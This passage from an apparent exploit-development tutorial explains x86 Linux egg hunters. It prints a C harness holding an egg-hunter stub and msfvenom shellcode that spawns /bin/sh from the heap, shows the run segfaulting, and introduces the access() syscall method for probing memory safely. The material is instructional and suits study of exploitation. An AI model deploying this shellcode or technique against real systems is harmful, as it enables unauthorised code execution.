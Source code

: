 ```bash
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
```
  
Our three first segments are respectively the .text, .data, .bss segment. As we can see, we have no unreadable spaces between them. If a memory segment was unreadable, we would have had a segmentation fault (SIGSEGV - Signal Segmentation Violation).  
  
Let's try now to place our egg shellcode in the heap space (we keep the same egg hunter):  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EGGMARK "\x50\x90\x50\x90"

unsigned char egghunter[] = \
"\xb8\x60\x80\x04\x08\xbb\x91\x50\x90\x50\x4b\x40\x39\x18\x75\xfb\xff\xe0";

unsigned char egg[] = \
EGGMARK
"\xbd\x64\xb2\x0c\xf4\xda\xc2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1" // msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b \x00
"\x0b\x83\xc2\x04\x31\x6a\x11\x03\x6a\x11\xe2\x91\xd8\x07\xac"
"\xc0\x4f\x7e\x24\xdf\x0c\xf7\x53\x77\xfc\x74\xf4\x87\x6a\x54"
"\x66\xee\x04\x23\x85\xa2\x30\x3b\x4a\x42\xc1\x13\x28\x2b\xaf"
"\x44\xdf\xc3\x2f\xcc\x4c\x9a\xd1\x3f\xf2";

void main()
{

	char *shellcode_heap = malloc(sizeof(egg)); // shellcode egg + egg mark
	memcpy(shellcode_heap, egg, sizeof(egg));

	printf("Egg hunter shellcode Length:  %d\n", strlen(egghunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode_heap));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
  
Running and executing it:  
```bash
# ./shellcode_heap
Egg hunter shellcode Length:  18
Egg shellcode Length:  74
Erreur de segmentation
```
  
We met a segmentation violation because our egg hunter is facing a memory access violation.  
However a technique consists in using the **access** system call that originally check users permissions for a file. Giving our memory address as the first argument, we will be able to check if a memory page is accessible. If not, the syscall will return EFAULT (14) into EAX:  
```
int access(const char *pathname, int mode);
```
  
